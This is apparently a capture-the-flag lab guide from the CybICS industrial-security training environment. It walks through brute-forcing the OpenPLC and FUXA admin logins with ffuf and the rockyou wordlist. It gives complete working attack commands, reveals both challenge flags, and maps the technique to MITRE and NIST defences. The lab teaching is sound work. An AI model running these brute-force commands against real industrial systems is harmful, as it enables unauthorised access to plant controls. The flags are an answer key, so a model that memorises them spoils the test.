





# 🔑 Password Attack Guide

> **MITRE ATT&CK for ICS:** `Initial Access` `Persistence` | [T0812 - Default Credentials](https://attack.mitre.org/techniques/T0812/) | [T0859 - Valid Accounts](https://attack.mitre.org/techniques/T0859/)

## 📋 Overview
A dictionary attack is a common method used to crack passwords by systematically attempting all the words in a pre-defined list, or "dictionary," until the correct one is found.
This type of attack leverages the tendency of users to choose simple, common passwords, such as "password," "123456," or "qwerty." By using a comprehensive dictionary that includes common words, phrases, and variations, attackers can quickly break into accounts that are protected by weak or predictable passwords.

## 🎯 OpenPLC Password Attack
In this example we try to get the password of the OpenPLC login using the password fuzzer [ffuf](https://github.com/ffuf/ffuf).

### 🔍 Analyzing the Target
OpenPLC is running at [http://<DEVICE_IP>:8080/login](http://<DEVICE_IP>:8080/login).
After entering wrong credentials, this page is displayed:  


When the browser's built-in developer console is open during the request, we can see what is sent and received when we try to login (e.g., in Chrome with F12):  


And the sent payload:  


### 🛠️ Setup Steps
On the CybICS attack machine `ffuf` and the `rockyou` wordlist are already
installed, so no download is needed:

```sh
ffuf -h                                   # already on PATH
ls /usr/share/wordlists/rockyou.txt       # bundled wordlist
```

If you work on a machine without them, install ffuf and fetch a wordlist:
```sh
wget https://github.com/ffuf/ffuf/releases/download/v2.1.0/ffuf_2.1.0_linux_amd64.tar.gz
tar xf ffuf_2.1.0_linux_amd64.tar.gz
wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

### 🚀 Running the Attack
Start ffuf with:
- `-w /usr/share/wordlists/rockyou.txt`: The wordlist
- `-X POST -H "Content-Type: application/x-www-form-urlencoded"`: Information from the login request
- `-d "username=admin&password=FUZZ"`: Information from the login request payload (FUZZ is replaced by ffuf)
- `-u http://$DEVICE_IP:8080/login`: The request URL
- `-fs 4561`: The length of the response on wrong login

```sh
ffuf -v -w /usr/share/wordlists/rockyou.txt -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -raw -u http://$DEVICE_IP:8080/login -fs 4561
```

For more info, run `ffuf` without parameters.

## 🎯 Task
This module covers two scored challenges, both solved with an ffuf dictionary attack. Flags have the format `CybICS(flag)`:

- **OpenPLC Password Attack** — brute-force the OpenPLC web login (port 8080) and read the flag from the user account. Flag: `CybICS(0penPLC)`.
- **FUXA Password Attack** — brute-force the FUXA HMI login (port 1881) and read the flag shown after login. Flag: `CybICS(FU##A)`.

### Steps
1. Analyze the OpenPLC login page at port 8080 (examine the request and response in the browser developer console)
2. Install ffuf and download the rockyou.txt wordlist
3. Run ffuf against the OpenPLC login to brute-force the admin password
4. Log in with the discovered credentials and find the flag in the user information
5. Apply the same approach to the FUXA HMI at port 1881
6. Log in to FUXA and find the flag

## 🔍 Solution: OpenPLC Password Attack

Brute-force `admin` at `http://$DEVICE_IP:8080/login`, log in with the recovered password, open the **Users** page and read the admin account's details.

**Flag:** `CybICS(0penPLC)` (submit for the *OpenPLC Password Attack* challenge)

  

## 🎯 FUXA Password Attack
Use the previous knowledge to fuzz the admin login of FUXA.
FUXA is running at [http://<DEVICE_IP>:1881](http://<DEVICE_IP>:1881).

**Note:** FUXA uses a different authentication mechanism than OpenPLC. While OpenPLC accepts form-encoded POST data at `/login`, FUXA uses a JSON-based API at `/api/signin`. This means you need to change the `Content-Type` header to `application/json`, format the payload as a JSON object, and use a different filter flag (e.g., `-fr "error"` instead of `-fs`) to distinguish successful from failed attempts.

## 🛡️ Security Framework References

<details>
  <summary>Click to expand</summary>

### MITRE ATT&CK for ICS

| Tactic | Technique | ID | Description |
|--------|-----------|-----|-------------|
| Initial Access | Default Credentials | [T0812](https://attack.mitre.org/techniques/T0812/) | Adversaries may use default credentials to gain access to ICS systems |
| Persistence | Valid Accounts | [T0859](https://attack.mitre.org/techniques/T0859/) | Adversaries may use compromised credentials for persistence |

**Why this matters:** Weak and default credentials remain one of the most common vulnerabilities in ICS environments. Many operators never change default passwords, and password policies are often weaker in OT than IT environments. Once an attacker has valid credentials, they can access HMI and engineering workstations to monitor and manipulate processes—often without triggering security alerts.

### MITRE D3FEND - Defensive Countermeasures

| Technique | ID | Description |
|-----------|-----|-------------|
| Authentication Event Monitoring | [D3-AEM](https://d3fend.mitre.org/technique/d3f:AuthenticationEventMonitoring/) | Monitoring for failed login attempts and brute force patterns |
| Account Lockout | [D3-AL](https://d3fend.mitre.org/technique/d3f:AccountLockout/) | Locking accounts after repeated failed attempts |
| Multi-factor Authentication | [D3-MFA](https://d3fend.mitre.org/technique/d3f:Multi-factorAuthentication/) | Requiring additional authentication factors |
| Strong Password Policy | [D3-SPP](https://d3fend.mitre.org/technique/d3f:StrongPasswordPolicy/) | Enforcing complex password requirements |

### NIST SP 800-82r3 Reference

| Control Family | Controls | Relevance |
|----------------|----------|-----------|
| **Identification and Authentication (IA)** | IA-2, IA-4, IA-5 | User identification, identifier management, and authenticator management |
| **Access Control (AC)** | AC-2, AC-7 | Account management and unsuccessful login attempts |
| **Audit and Accountability (AU)** | AU-2, AU-3 | Auditing authentication events |

**Why NIST 800-82r3 matters here:** NIST 800-82r3 Section 6.2.3 specifically addresses the unique challenges of authentication in OT environments where availability is paramount. IA-5 (Authenticator Management) recommends strong password policies, while AC-7 (Unsuccessful Login Attempts) requires lockout mechanisms. However, the guidance also acknowledges that account lockout must be carefully balanced against operational needs—locking out an operator during an emergency could be catastrophic.

</details>


## 💡 Hints

- **OpenPLC**: The flag is part of the user information.
- **FUXA**: The flag appears after successful login on the HMI.

## 🔍 Solution: FUXA Password Attack

Run the attack:
  ```sh
  ffuf -v -w /usr/share/wordlists/rockyou.txt -X POST -H "Content-Type: application/json" -d '{"username": "admin", "password": "FUZZ"}' -raw -u http://$DEVICE_IP:1881/api/signin -fr "error"
  ```

**Flag:** `CybICS(FU##A)` (submit for the *FUXA Password Attack* challenge)

  